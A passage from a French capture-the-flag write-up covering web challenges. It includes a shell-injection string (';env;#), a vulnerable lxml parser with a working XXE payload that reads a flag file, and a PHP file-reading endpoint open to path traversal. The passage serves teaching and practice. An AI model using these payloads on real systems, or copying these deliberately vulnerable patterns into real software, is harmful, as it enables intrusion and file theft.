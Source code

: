 ```bash
';env;#
```

Avec ça, pas d'erreur et une payload qui passe

### XXE

Pour le 12ème challenge on nous propose une vulnérabilité XXE.
Nous devons lire le fichier `/dev/shm/flag.txt` en profitant d'un parsing XML de notre payload.

Voici le code du challenge :
```python
from lxml import etree
import os

xml = os.environ.get("PAYLOAD", "")

parser = etree.XMLParser(
    load_dtd=True,
    no_network=True,
    resolve_entities=True,
    recover=True,
)
doc = etree.fromstring(xml.encode(), parser)
print(doc.text)
```

Et notre payload est uniquement préfixé d'une ligne :
```xml
<?xml version="1.0"?>
```

Donc notre payload constitue la quasi totalité du XML, sans avoir à sortir d'une balise ou échapper quoi que ce soit (quel bonheur).
```xml
<!DOCTYPE y [<!ENTITY x SYSTEM 'file:///dev/shm/flag.txt'>]><a>&x;</a>
```

La payload est la plus simple, et peut-être la plus connue, elle nous permet de définir un document `y` contenant une entité `x`. On assigne à cette entité une valeur externe, étant ici le fichier contenant le flag.
On défini ensuite un noeud dans lequel affiché notre entité, ici `<a>&x;</a>`

Une attaque connue et "simple" mais qui nous posera problème plus tard...


### Path Traversal

Pour finir la liste des challenges, nous avons une Path Traversal ! Celle-ci doit être effectuée à travers un code PHP :
```PHP
<?php

$PAYLOAD = getenv('PAYLOAD') ?: '';

print(file_get_contents($PAYLOAD));
```
